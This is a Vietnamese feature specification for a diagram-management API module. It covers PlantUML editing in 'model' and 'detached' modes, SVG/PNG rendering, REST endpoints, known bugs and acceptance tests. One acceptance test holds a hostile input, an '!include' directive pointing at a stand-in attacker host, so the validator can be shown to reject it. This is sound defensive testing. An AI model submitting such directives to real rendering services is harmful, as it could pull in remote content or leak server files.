

# Đặc tả Tính năng: Quản lý & Kết xuất Sơ đồ Hai Chế độ (`apps/api/src/modules/diagrams`)

## 1. Mục tiêu & Mã Yêu cầu Liên quan
- **Vai trò:** Quản lý các góc nhìn sơ đồ (`context`, `container`, `component`, `sequence`, `er`) gắn với `ArchitectureModel`, vận hành cơ chế **Soạn thảo Hai Chế độ (`model` vs `detached`)**, kết xuất sang ảnh **SVG / PNG** qua `RENDER_PORT` có lưu cache, và báo lỗi cú pháp PlantUML chính xác đến từng dòng.
- **Mã yêu cầu đặc tả:**
  - `FR-DIA-001`: Cung cấp sẵn sơ đồ C4 Context và C4 Container cho mọi mô hình kiến trúc.
  - `FR-DIA-004`: Kết xuất mã PlantUML thành ảnh SVG xem trước trên trình duyệt; khi mã có lỗi cú pháp, trả về thông báo lỗi kèm số dòng và **giữ nguyên bản ảnh SVG hợp lệ gần nhất** để giao diện không bị trắng trang.
  - `FR-DIA-005`: Ở chế độ gắn mô hình (`mode = 'model'`), mỗi khi `ArchitectureModel` thay đổi, mã `.puml` và ảnh SVG được tự động sinh lại đồng bộ.
  - `FR-DIA-006`: Khi người dùng sửa tay trực tiếp mã `.puml` (`PUT /diagrams/:id/puml`), sơ đồ chuyển sang chế độ tách rời (`mode = 'detached'`) kèm cảnh báo rõ ràng; các lần cập nhật `ArchitectureModel` sau đó **không được ghi đè** mã sửa tay này.
  - `FR-DIA-007`: Cho phép người dùng chủ động khôi phục sơ đồ từ `detached` về lại `model` (`POST /diagrams/:id/reset`).
  - `NFR-SEC-004`: Kiểm tra chặn các chỉ thị PlantUML độc hại (`!include` URL ngoài / đọc file máy chủ) trước khi gửi sang dịch vụ render.

---

## 2. Ranh giới Module & Quyền sở hữu CSDL
- **Đường dẫn:** `srs-tool/apps/api/src/modules/diagrams` (`diagrams.module.ts`, `diagrams.controller.ts`, `diagrams.service.ts`).
- **Bảng CSDL được phép GHI:** Duy nhất bảng `diagrams`.
- **Phụ thuộc nội bộ:** `DatabaseService`, `RENDER_PORT`, `STORAGE_PORT`, `ArchitectureService` (hoặc nhận dữ liệu model), `@srs-tool/plantuml-gen` (`generateDiagram`, `validateSafePuml`).

---

## 3. Hợp đồng REST Endpoints & Vòng đời Chế độ (Tiền tố `/api/v1`)

| Phương thức & Đường dẫn | Query / Body | Response Chuẩn | Quy tắc Nghiệp vụ |
| :--- | :--- | :--- | :--- |
| `GET /models/:modelId/diagrams` | — | `DiagramSummary[]` | Nếu model chưa có bản ghi `diagrams` cho `context` và `container`, tự động khởi tạo bằng **UUID hợp lệ (`crypto.randomUUID()`)** và lưu vào PostgreSQL. |
| `GET /diagrams/:id` | `?format=svg\|png\|puml\|json` | Raw `image/svg+xml`, `image/png`, hoặc JSON `{ id, modelId, type, mode, puml, svg, lastValidSvg?, error? }` | Hỗ trợ `format=json` để trình soạn thảo Web nhận đồng thời cả mã `.puml`, `mode` và ảnh `svg` trong 1 request. |
| `PUT /diagrams/:id/puml` | `{ puml: string }` | `{ id, mode: 'detached', warning, svg, syntaxError? }` | 1. Gọi `validateSafePuml(puml)` — nếu vi phạm bảo mật (`!include http...`) → từ chối `400 Bad Request`. 2. Render thử qua `RENDER_PORT`. Nếu lỗi cú pháp PlantUML: trả về `{ syntaxError: { line, message }, lastValidSvg }` mà không làm mất ảnh cũ. 3. Lưu `mode = 'detached'` và `puml` mới vào bảng `diagrams`. |
| `POST /diagrams/:id/reset` | — | `{ id, mode: 'model', puml, svg }` | Đọc `ArchitectureModel` hiện hành, gọi `generateDiagram(model, diagram.type)`, cập nhật `mode = 'model'`, `puml` mới và render lại `svg`. |

---

## 4. Thực trạng Code Hiện tại & Các Bug Nghiêm trọng Cần Sửa

### Trạng thái hiện tại (`~55%`)
1. **BUG P0 — Truyền chuỗi phi-UUID `'diag_...'` vào cột `diagrams.id` (`UUID`):**
   - Tại `diagrams.service.ts:194`, `getOrCreateDiagramForModel` tạo `const id = 'diag_' + modelId + '_' + type` rồi `db.insert(diagrams).values({ id, ... })`. PostgreSQL từ chối ngay lập tức vì `diagrams.id` có kiểu `UUID`, nhưng khối `catch {}` rỗng ở dòng 207 đã nuốt mất lỗi này khiến bảng `diagrams` trên PostgreSQL luôn trống rỗng!
2. **BUG P1 — Chưa chặn chỉ thị `!include` độc hại khi người dùng sửa tay `.puml`:**
   - `updatePuml` gửi thẳng chuỗi `puml` của người dùng vào `renderPort.renderSvg(puml)` mà chưa gọi hàm kiểm tra an toàn `validateSafePuml` (`NFR-SEC-004`).
3. **BUG P1 — Thiếu cơ chế đồng bộ tự động khi `ArchitectureModel` thay đổi:**
   - Cần cung cấp phương thức `syncModelDiagrams(model: ArchitectureModel)` trên `DiagramsService` để mỗi khi `synthesizeArchitecture` hoặc `applyPatch` chạy xong, tất cả sơ đồ thuộc `model.id` đang ở `mode === 'model'` được cập nhật lại `.puml` mới (trong khi các sơ đồ `mode === 'detached'` được giữ nguyên tuyệt đối).

### Kế hoạch theo Phase
- **Phase 1:**
  - Sửa `getOrCreateDiagramForModel`: truy vấn PostgreSQL theo `and(eq(diagrams.modelId, modelId), eq(diagrams.type, type))`; nếu chưa có thì chèn mới với `id = crypto.randomUUID()`. Xoá toàn bộ các khối `catch {}` rỗng nuốt lỗi SQL.
  - Gọi `validateSafePuml(puml)` trong `updatePuml` trước khi render.
  - Bổ sung `syncModelDiagrams(model)` và hỗ trợ `?format=json` trên `GET /diagrams/:id`.

---

## 5. Tiêu chí Nghiệm thu & Kịch bản Kiểm thử
- [ ] Gọi `GET /api/v1/models/:modelId/diagrams` tạo và lưu thành công các dòng có `UUID` hợp lệ vào bảng `diagrams` trên PostgreSQL thật; gọi lại lần 2 trả về đúng các `id` đó mà không tạo bản ghi trùng.
- [ ] Sửa sơ đồ Container bằng `PUT /diagrams/:id/puml` chuyển `mode` sang `'detached'`; sau đó vá `ArchitectureModel` thì sơ đồ Context (`mode = 'model'`) tự cập nhật theo model mới, còn sơ đồ Container (`mode = 'detached'`) giữ nguyên mã sửa tay.
- [ ] Gửi `PUT /diagrams/:id/puml` chứa `!include https://attacker.example/leak.puml` bị từ chối `400 Bad Request` ngay lập tức.
